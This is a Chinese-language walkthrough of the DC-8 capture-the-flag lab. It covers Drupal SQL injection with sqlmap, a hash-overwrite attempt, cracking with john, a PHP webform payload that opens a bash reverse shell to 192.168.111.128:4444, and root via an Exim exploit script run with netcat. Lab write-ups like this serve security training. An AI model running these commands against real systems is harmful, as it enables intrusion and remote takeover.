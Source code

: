 # DC-8
对目标进行nmap扫描
![](vx_images/198025579402274.png)
一个Drupal站点
![](vx_images/71566433965269.png)
目录扫一下
![](vx_images/27465724219895.png)
发现版本信息
![](vx_images/220794857154592.png)
看到版本是7.67
msf上的脚本都试了下无法利用
回到web点击detail发现nid参数测试一下sql注入
![](vx_images/379735680690973.png)
果然存在
sqlmap跑
![](vx_images/397445778463640.png)
尝试获取个shell,但是失败了
那就看一下账号密码
改密码$S$DMtruNEVmqWoqhlPwTlnFzwyBRFgQwXUfppe9pW1RqqXlMy97tzA

```
update users set pass='$S$DMtruNEVmqWoqhlPwTlnFzwyBRFgQwXUfppe9pW1RqqXlMy97tzA' where uid=1
```
![](vx_images/424085021656238.png)
改不了,那就看看能不能爆破一下hash,jianghash放入文件中
```
john drupal_hash.txt
```
![](vx_images/19513711623249.png)
成功登录
![](vx_images/37602066679536.png)
几经摸索,创建webform中可以添加php代码
![](vx_images/282873317248478.png)
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");?>
```
但是访问后弹不回shell,网站给出了说明

![](vx_images/5695190790054.png)
想了下顶部的几个文章可以下手,修改oncat us
![](vx_images/113696529117354.png)
然后输入表单提交,触发shell
![](vx_images/270715737870111.png)
home目录下的用户什么信息都没有
sudo -l也没有权限
查找一下suid
![](vx_images/560806183966668.png)
![](vx_images/169775012943088.png)
查看一下debian-exiam用户
![](vx_images/102978741620996.png)
应该是提示
Exim是 Linux 系统中常用的邮件传输代理（MTA）软件
![](vx_images/427732405758812.png)
![](vx_images/507440791878578.png)
![](vx_images/498184514759288.png)
这个可以利用
接下来将其上传
用wget命令下载
kali上开启python的http服务
![](vx_images/599372791948783.png)
![](vx_images/96814795934981.png)
赋予脚本执行权限,执行
![](vx_images/223503204759003.png)
./46996.sh -m netcat
![](vx_images/51784274227074.png)
